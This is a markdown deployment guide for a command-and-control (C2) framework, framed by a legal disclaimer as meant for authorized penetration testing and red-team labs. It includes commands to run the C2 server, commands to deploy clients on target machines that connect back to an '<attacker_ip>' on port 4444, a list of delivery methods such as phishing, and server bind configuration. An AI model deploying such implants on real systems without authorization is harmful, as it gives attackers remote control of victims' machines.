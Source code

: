 # C2 Framework Deployment Guide

⚠️ **LEGAL DISCLAIMER**: This deployment guide is for authorized penetration testing, red team exercises, and educational purposes only. Always ensure you have explicit written permission before deploying on any systems.

## 🎯 Deployment Scenarios

### 1. Authorized Penetration Testing

#### **Lab Environment Setup**
```bash
# 1. Set up isolated network
# Create VMs: 1 Attacker, 2-3 Target systems

# 2. Deploy C2 server on attacker machine
./output/c2_server

# 3. Deploy clients on target systems (with permission)
./output/c2_client --server <attacker_ip> --port 4444
```

#### **Corporate Red Team Exercise**
```bash
# 1. Coordinate with blue team
# 2. Set up C2 server on approved infrastructure
# 3. Deploy clients using approved methods:
#    - Email simulation (approved phishing)
#    - Physical access simulation
#    - Insider threat simulation
```

### 2. Security Research

#### **Malware Analysis Lab**
```bash
# 1. Use isolated network (no internet access)
# 2. Deploy C2 for behavioral analysis
# 3. Study detection capabilities
# 4. Develop countermeasures
```

## 🚀 Production Deployment

### **Server Deployment**

#### **Option 1: Local Network**
```bash
# Bind to specific interface
./c2_server --bind 192.168.1.100 --port 4444

# Or modify config
# server_config.toml:
[server]
bind_address = "192.168.1.100"
bind_port = 4444
max_clients = 50
```
